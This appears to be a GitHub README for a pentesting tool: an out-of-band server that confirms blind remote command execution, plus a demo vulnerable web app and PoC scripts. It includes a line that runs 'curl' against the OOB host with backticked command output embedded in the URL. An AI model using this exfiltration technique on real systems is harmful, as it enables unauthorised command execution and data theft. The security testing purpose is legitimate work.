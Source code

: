 # OOB (Out Of Band) Server for blind RCE vulnerability

* reference:
  https://notsosecure.com/out-band-exploitation-oob-cheatsheet

## How to use?
## server.py
1. change HOST and PORT to your own OOB server's IP address and listen port.
2. start up the OOB server:
```bash
shell$ python3 server.py
```

### Simple Validation:
  
when client to access:
```
http://oob_server:port/geturl
```
the OOB server will generate and response a random URL like:
```
http://oob_server:port/iF9d2k
```
when client to access this random URL, it will create a txt file and logging client's IP.\
and client can access `random_url?m=1` to check this
```
http://oob_server:port/iF9d2k?m=1
```

![image](https://github.com/NinjaGPT/oob_server/assets/4035112/c1880071-2ccb-4d70-ad39-fa649ec9cb34)

### Record Execution Result:
  
when pentester wants to gain the executed result of OS command, can send:
```
curl http://oob_server:port/`id`
```
and then to access following URL to get result:
```
http://oob_server:port/checklog
```
![image](https://github.com/NinjaGPT/oob_server/assets/4035112/14d1c6a4-bfbb-4ef3-b10d-afa074a9ea6a)

## victim.py
a demo of vulnerable Web application.
```
http://victim.com:port/vuln
POST
cmd={command}
```
<img width="633" alt="image" src="https://github.com/NinjaGPT/oob_server/assets/4035112/b1cf3229-c818-4dec-bacc-a948a0bec62b">

## poc.py
Simple Validation POC

![image](https://github.com/NinjaGPT/oob_server/assets/4035112/6f5f7cee-b56d-4b93-9ade-dcb2d5c481f6)


## response_poc.py
Gain Execution Result POC

![image](https://github.com/NinjaGPT/oob_server/assets/4035112/245b8e28-1587-4821-b11b-4efed3d1a78f)
